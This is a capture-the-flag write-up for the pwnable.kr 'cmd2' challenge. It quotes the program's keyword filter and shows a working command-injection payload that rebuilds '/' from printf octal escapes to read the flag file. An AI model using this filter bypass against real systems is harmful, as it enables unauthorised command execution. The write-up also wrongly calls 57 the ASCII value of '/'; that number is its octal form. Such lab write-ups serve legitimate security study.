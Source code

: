 # Challenge #13 - cmd2

## Challenge Description:

> Daddy bought me a system command shell.
> but he put some filters to prevent me from playing with it without his permission...
>
>  but I wanna play anytime I want!
>
> ```bash
> ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)
> ```

#### As you can see the password for this one is the flag for the cmd1 ctf! (Check my writeup [HERE](../cmd1/README.md))

---

### The setup for this one is very similar to the cmd1 challenge so I will only outline what has changed!

## Static Analysis

Inside `cmd2.c`:
```C
// Inside `filter` function

// ...

r += strstr(cmd, "=")!=0;
r += strstr(cmd, "PATH")!=0;
r += strstr(cmd, "export")!=0;
r += strstr(cmd, "/")!=0;
r += strstr(cmd, "`")!=0;

// ...
```

We see that some more rules were added to the `filter` function, namely:
- `cmd` cannot contain the character `'='`
- `cmd` cannot contain the string `"PATH"`
- `cmd` cannot contain the string `"export"`
- `cmd` cannot contain the character `'/'`
- `cmd` cannot contain the character ```'`'```

## Plan

So the new `filter` breaks our previous exploit as we cant use `'/'` to call `/bin/cat`... Or does it? Since the filter does not check for `'%'` we can "embed" in our argument slashes that will not be caught in the `filter` function but will still run! We can do it like so:

```bash
./program '$(printf "this is a slash! %b" "\57")'
```

The ASCII value for `'/'` is 57 so when parsed by the call to `system()` it will become `printf "this is a slash! /"`!

## Exploit

Let's implement our plan:

```bash
cmd2@ubuntu:~$ ./cmd2 '$(printf "%bbin%bcat %s%s" "\57" "\57" "fl" "ag")'
$(printf "%bbin%bcat %s%s" "\57" "\57" "fl" "ag")
<cmd2_flag_here>
cmd2@ubuntu:~$
```

### And we are successful!
